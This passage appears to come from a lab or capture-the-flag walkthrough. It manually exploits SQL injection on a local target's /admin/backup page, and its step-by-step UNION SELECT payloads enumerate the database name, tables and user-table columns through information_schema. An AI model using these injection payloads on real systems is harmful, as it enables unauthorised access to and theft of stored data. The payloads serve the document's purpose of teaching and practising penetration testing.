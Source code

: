 Now I started to dump the data from server.
You can use sqlmap to dump the data, but here I dumped all data manually.

**i) Finding total number of COLUMNS used in sql query.**

To find out total number of columns in sql query I used `order by`. 
```
http://192.168.1.223/admin/backup/?id=99 or 1=2 order by 1
```
![m1](/assets/img/m87/m1.png)

```
http://192.168.1.223/admin/backup/?id=99 or 1=2 order by 2
```
![m2](/assets/img/m87/m2.png)

**ii) Database Name:**

```
http://192.168.1.223/admin/backup/?id=99 or 1=2 union select (select database())
```
![m3](/assets/img/m87/m3.png)

**iii) Now get Tables Names.**

To find out the table names we need to query table `tables` which is part of `information schema` database.

```
http://192.168.1.223/admin/backup/?id=99 or 1=2 union select (select table_name from information_schema.tables where table_schema='db' limit 0,1)
```
![m4](/assets/img/m87/m4.png)

We found 1 table: `users`

**iv) Extract the columns of table users:**
```
http://192.168.1.223/admin/backup/?id=99 or 1=2 union select (select column_name from information_schema.columns where table_schema='db' and table_name='users' limit 0,1)
```
![m6](/assets/img/m87/m6.png)
```
http://192.168.1.223/admin/backup/?id=99 or 1=2 union select (select column_name from information_schema.columns where table_schema='db' and table_name='users' limit 1,1)
```
![m7](/assets/img/m87/m7.png)
```
http://192.168.1.223/admin/backup/?id=99 or 1=2 union select (select column_name from information_schema.columns where table_schema='db' and table_name='users' limit 2,1)
```
![m8](/assets/img/m87/m8.png)

```
http://192.168.1.223/admin/backup/?id=99 or 1=2 union select (select column_name from information_schema.columns where table_schema='db' and table_name='users' limit 3,1)
```
![m9](/assets/img/m87/m9.png)
